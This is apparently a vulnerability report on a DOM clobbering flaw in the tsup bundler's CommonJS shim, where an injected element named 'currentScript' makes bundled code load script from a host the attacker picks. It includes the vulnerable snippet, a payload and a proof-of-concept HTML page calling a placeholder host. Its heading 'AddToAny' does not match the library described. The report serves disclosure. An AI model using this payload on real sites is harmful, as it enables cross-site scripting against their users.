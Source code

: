 ## AddToAny

### Meta

+ Library: tsup
+ Version: v8.2.4
+ Stars: 8.9K
+ Payload: ```<img name="currentScript" src="https://xxx.xxx.xxx"></img>```
+ Impact: XSS
+ CVE: N/A
+ Status: Reported
+ Foundby: TheHulk

### Library

URL: https://github.com/egoist/tsup

Bundlers run locally

### Vulnerable Code Snippet

```javascript
// node_modules/tsup/assets/cjs_shims.js
var getImportMetaUrl = () => typeof document === "undefined" ? new URL(`file:${__filename}`).href : document.currentScript && document.currentScript.src || new URL("main.js", document.baseURI).href;
var importMetaUrl = /* @__PURE__ */ getImportMetaUrl();
```

## PoC

as an example, bundle the js below.

```javascript
var s = document.createElement('script')
s.src = import.meta.url + 'extra.js'
document.head.append(s)
```

example html:

```html
<img name="currentScript" src="//xxx.xxx.xxx"></img>
<script src="dist/index.js"></script>
```
